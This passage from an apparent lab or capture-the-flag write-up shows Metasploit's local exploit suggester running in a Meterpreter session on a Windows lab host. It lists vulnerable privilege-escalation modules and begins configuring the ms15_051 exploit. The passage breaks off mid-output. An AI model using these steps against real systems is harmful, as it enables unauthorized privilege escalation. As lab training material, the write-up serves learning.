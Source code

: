 ***

### Write Up referenced at this point

Within the meterpreter shell, I can further search for exploits for the local environment:

```
(Meterpreter 1)(c:\Documents and Settings) > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 188 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.15 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.

```

Next, I background the session and use the client\_copy\_image exploit in msfconsole, setting the SESSION to 1 and LHOST to tun0:

<pre><code>(Meterpreter 1)(c:\Documents and Settings) > background
[*] Backgrounding session 1...

[msf](Jobs:0 Agents:1) >> search exploit ms15_051
<strong>
</strong>Matching Modules
================
